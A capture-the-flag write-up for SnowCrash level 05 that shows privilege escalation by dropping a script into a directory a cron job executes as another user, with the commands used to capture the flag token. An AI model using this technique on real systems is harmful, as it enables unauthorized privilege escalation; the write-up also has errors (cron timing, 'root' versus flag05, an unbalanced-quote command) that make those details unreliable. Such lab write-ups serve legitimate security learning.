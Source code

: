 # LEVEL 05

## Vulnerability & exploit

Cron job running undefined scripts as privileged user -> Privilege escalation via cron

## Initial Context

Upon logging, we are informed that we have a mail:

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

## Solving the challenge

User flag05 seems to inform us that he set up a cron job to run every 30 seconds (which should round to 1min), during the following script is run as root:

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We can see that it will loop through all the files in /opt/openarenaserver and run them in a bash shell.  
We therefore need to create a bash script in that directory, to have it run as root.
Since the operaneserver script does not return or print the output of the command, we will have to make sure the output is redirected to a file in /tmp.

```
level05@SnowCrash:~$ echo `getflag` > /tmp/token' > /tmp/getflag.sh
level05@SnowCrash:~$ mv /tmp/getflag.sh /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```
